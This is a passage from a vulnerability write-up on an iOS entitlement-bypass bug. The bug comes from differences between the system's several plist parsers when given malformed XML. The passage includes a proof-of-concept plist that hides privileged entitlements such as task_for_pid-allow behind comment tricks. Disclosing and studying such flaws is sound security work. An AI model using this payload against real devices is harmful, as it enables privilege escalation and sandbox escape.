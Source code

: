 So we have a reference implementation for entitlement checks, and it's backed by `OSUnserializeXML`. Great! ...or is it?

A very interesting thing about this bug is that I couldn't point you at any particular piece of code and say "there's my bug". The reason for that is that, of course, iOS doesn't have just one, or two, or even three plist parsers, it has at least four! These are:

- `OSUnserializeXML` in the kernel
- `IOCFUnserialize` in [IOKitUser][iokituser]
- `CFPropertyListCreateWithData` in [CoreFoundation][cf]
- `xpc_create_from_plist` in libxpc (closed-source)

So the three interesting questions that arise from this are:

1. Which parsers are used to parse entitlements?
2. Which parser does `amfid` use?
3. And do all parsers return the same data?

The answer to 1) is "all of them", and to 2) `CFPropertyListCreateWithData`. And as a few folks on Twitter already figured out after my tweet, the answer to 3) is obviously "lolnope". Because it's very hard to parse XML correctly, _valid_ XML makes all parsers return the same data, but slightly _invalid_ XML makes them return just slightly _not_ the same data. :D  
In other words, any parser difference can be exploited to make different parsers see different things. This is the very heart of this bug, making it not just a logic flaw, but a system-spanning _design flaw_.

Before we move on to exploiting this, I would like to note that in all my tests, `OSUnserializeXML` and `IOCFUnserialize` always returned the same data, so for the rest of this post I will consider them as equivalent. For brevity, I will also be dubbing `OSUnserializeXML`/`IOCFUnserialize` "IOKit", `CFPropertyListCreateWithData` "CF", and `xpc_create_from_plist` "XPC".

## 3. The exploit

Let's start with the variant of the PoC I tweeted out, which is perhaps the most elegant way of exploiting this bug: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <!-- these aren't the droids you're looking for -->
    <!---><!-->
    <key>platform-application</key>
    <true/>
    <key>com.apple.private.security.no-container</key>
    <true/>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```


  [poc]: https://twitter.com/s1guza/status/1255641164885131268
  [lore]: https://tardis.fandom.com/wiki/Psychic_paper
  [xkcd-url]: https://xkcd.com/1144/
  [xkcd-img]: https://imgs.xkcd.com/comics/tags.png
  [entlist]: http://newosxbook.com/ent.jl
  [cl0ver]: https://siguza.github.io/cl0ver/
  [bsdinit]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/bsddev/IOKitBSDInit.cpp.auto.html
  [iouc]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/Kernel/IOUserClient.cpp.auto.html
  [iokituser]: https://opensource.apple.com/source/IOKitUser/IOKitUser-1726.41.1/IOCFUnserialize.tab.c.auto.html
  [cf]: https://opensource.apple.com/source/CF/CF-1153.18/CFPropertyList.c.auto.html
  [src]: https://github.com/Siguza/psychicpaper/tree/master/src
  [cve]: https://support.apple.com/en-us/HT211102
  [tweet]: https://twitter.com/LinusHenze/status/1243170188205461508
  [issue]: https://github.com/Siguza/psychicpaper/issues
  [twitter]: https://twitter.com/s1guza
  [repo]: https://github.com/Siguza/psychicpaper
  [joke]: https://twitter.com/joshuaseltzer/status/1255653827191148544
  [silly]: https://twitter.com/chronic/status/1255679349186981889
  [slick]: https://twitter.com/da5ch0/status/1255946105268961280
  [beautiful]: https://twitter.com/Emu4iOS/status/1255929980808298500
  [thonk]: https://twitter.com/nicolas09F9/status/1255906004719538182
  [lmao]: https://twitter.com/InvoxiPlayGames/status/1255648539851587585